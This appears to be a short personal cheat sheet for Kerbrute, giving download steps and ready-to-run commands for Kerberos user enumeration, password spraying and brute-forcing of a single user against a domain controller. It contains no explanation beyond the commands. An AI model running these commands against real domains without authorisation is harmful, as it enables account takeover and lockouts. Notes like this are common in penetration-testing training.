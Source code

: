 # About
A tool to perform Kerberos pre-auth bruteforcing
## Links
[Github](https://github.com/ropnop/kerbrute)
[Releases](https://github.com/ropnop/kerbrute/releases)
# Installing
Get the most recent file from the [Releases Page](https://github.com/ropnop/kerbrute/releases) and make it executable
```
chmod +x kerbrute_linux_amd64
```
# Usage
```
./kerbrute -h
```
## User Enumeration
```
./kerbrute_linux_amd64 userenum -d DOMAIN --dc DC-IP USERLIST.txt -v -o Outfile.txt
./kerbrute_linux_amd64 userenum -d DOMAIN --dc DC-IP USERLIST.txt | grep "VALID USERNAME" | awk '{print $7}' > valid_users.txt
```
![[Pasted image 20250909132517.png]]
## PasswordSpray
```
./kerbrute_linux_amd64 passwordspray -d DOMAIN --dc DC-IP domain_users.txt PASSWORD -v -o Outfile.txt
```
![[Pasted image 20250909132521.png]]
## Bruteforce
```
./kerbrute_linux_amd64 bruteuser -d DOMAIN --dc DC-IP WORDLIST USER -v -o Outfile.txt
```
![[Pasted image 20250909132524.png]]